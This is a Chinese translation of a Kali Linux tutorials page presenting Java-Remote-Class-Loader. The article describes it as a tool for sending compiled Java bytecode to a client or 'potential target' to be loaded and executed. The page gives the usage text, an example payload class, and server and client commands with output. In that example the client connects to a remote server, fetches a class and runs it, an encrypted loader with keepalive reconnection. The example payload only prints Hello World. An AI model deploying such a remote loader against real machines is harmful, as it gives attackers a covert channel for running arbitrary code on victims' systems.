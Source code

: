 # Java-Remote-Class-Loader:发送 Java 字节码受害者进行加载和执行的工具

> 原文：<https://kalilinuxtutorials.com/java-remote-class-loader/>

[![](img//93a0bbcf2b7240d7bedf510b6028c4d6.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhrip7mgHqgEV9-eDoXyYAgh8aRSziuVSAQKSuLbZO1Vc88GV1k6teMqN1bI_lAwFbuFZtsujDqi9x3KIXi78aXsxvPph37L-PPtYmymBl6Xy62e86HcC3zxuvBGyyv3QgZ6iXy581GrhoKobLMb4rrPFo7qSC5kZwrjZdsuoEitH1ag5I8r9C1NBxy/s728/Java-Remote-Class-Loader.png)

**Java-Remote-Class-Loader** 是一个工具，它允许您将 Java 字节码以类文件的形式发送到您的客户端(或潜在目标),以便使用 Java ClassLoader 和 Reflect API 来加载和执行。客户机从服务器接收类文件，并返回各自的执行输出。有效负载必须用 Java 编写，并在启动服务器之前进行编译。

## 特性

*   客户机-服务器体系结构
*   Java 类文件的远程加载
*   使用 ChaCha20 密码的传输加密
*   通过参数定义的设置
*   Keepalive 机制，用于在服务器重启时重新建立通信

## 安装

该工具已经在 Windows 和 Linux (zip 便携版)上使用 OpenJDK 11 和 JRE Java 包进行了测试。由于依赖性，Java 版本应该是 11 或更高版本。

[https://www.openlogic.com/openjdk-downloads](https://www.openlogic.com/openjdk-downloads)

## 用法

```
$ java -jar java-class-loader.jar -help

usage: Main
 -address <arg>       address to connect (client) / to bind (server)
 -classfile <arg>     filename of bytecode .class file to load remotely
                      (default: Payload.class)
 -classmethod <arg>   name of method to invoke (default: exec)
 -classname <arg>     name of class (default: Payload)
 -client              run as client
 -help                print this message
 -keepalive           keeps the client getting classfile from server every
                      X seconds (default: 3 seconds)
 -key <arg>           secret key - 256 bits in base64 format (if not
                      specified it will generate a new one)
 -port <arg>          port to connect (client) / to bind (server)
 -server              run as server
```

## 举例

假设您在`Payload.java`文件中有以下 Hello World 有效负载:

```
//Payload.java
public class Payload {
    public static String exec() {
        String output = "";
        try {
            output = "Hello world from client!";
        } catch (Exception e) {
            e.printStackTrace();
        }
        return output;
    }
}
```

然后，您应该编译并生成各自的`Payload.class`文件。

要在所有网络接口上运行监听端口 1337 的服务器进程，请执行以下操作:

```
$ java -jar java-class-loader.jar -server -address 0.0.0.0 -port 1337 -classfile Payload.class

Running as server
Server running on 0.0.0.0:1337
Generated new key: TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=
```

在客户端，您可以使用带有`-client`标志的同一个 JAR 包，并使用服务器生成的对称密钥。指定要连接的服务器 IP 地址和端口。你也可以改变类名和类方法(默认分别是`Payload`和`String exec()`)。此外，您可以指定`-keepalive`来保持客户机从服务器请求类文件，同时保持连接。

```
$ java -jar java-class-loader.jar -client -address 192.168.1.73 -port 1337 -key TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=

Running as client
Connecting to 192.168.1.73:1337
Received 593 bytes from server
Output from invoked class method: Hello world from client!
Sent 24 bytes to server
```

[Click Here To Download](https://github.com/joaovarelas/java-remote-class-loader)